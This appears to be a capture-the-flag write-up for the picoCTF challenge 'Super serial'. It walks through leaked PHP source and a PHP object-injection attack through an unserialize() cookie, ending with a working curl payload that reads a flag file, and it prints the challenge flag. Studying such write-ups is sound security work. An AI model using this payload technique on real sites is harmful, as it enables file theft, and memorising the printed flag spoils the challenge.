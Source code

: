# Super serial

Try to recover the flag stored on this website http://mercury.picoctf.net:2148/

## Solution

At first glance, we see a login form. Nothing weird going on in the HTML. However, we do have a PHPSESSID present in the cookies.

Visiting /robots.txt reveals `Disallow: /admin.phps`. Interesting, a `.phps`-file. `http://mercury.picoctf.net:2148/admin.phps` cannot be found, but `http://mercury.picoctf.net:2148/index.phps` reveals the source code of `index.php`.

```
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

As we can see from the source code, `cookie.php` and `authentication.php` exists. Nothing special on the corresponding pages, but let's try the `.phps` versions.

Further inspection of `authentication.phps` and `cookie.phps` reveals the following code:

(from `cookie.phps`)
```
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

(from `authentication.phps`)
```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
```

The fact that the code is utilizing the function `unserialize` in `cookie.phps` is veeery dangerous, and I guess this is going to be the attack vector. If we set the cookie ```login``` to a base64 encoded serialized ```access_log``` class, the ```$g = $perm->is_guest();``` row will throw an error because no such function exists. The ```$perm``` object will get printed out due to the following code:

from cookie.phps:
```
catch(Error $e){
	die("Deserialization error. ".$perm);
}
```

from authentication.phps:
```
function __toString() {
    return $this->read_log();
}

function read_log() {
    return file_get_contents($this->log_file);
}
```

### Constructing the serialized object

The question now is, how to construct the serialized object, and what should ```$log_file``` be? At this point, I was pretty stuck, so I looked at one of the hints which revealed that ```The flag is at ../flag```, great!

I created my base64 encoded serialized object using ```serialize.php```. Now, all we need to do is:

```
$  curl --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://
mercury.picoctf.net:2148/authentication.php

Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}
```

which reveals the flag °˖✧◝(⁰▿⁰)◜✧˖°

### General remarks

This one was fun. I've seen ```unserialize```-vulns before, It's nice to come across them again + be able to exploit them.




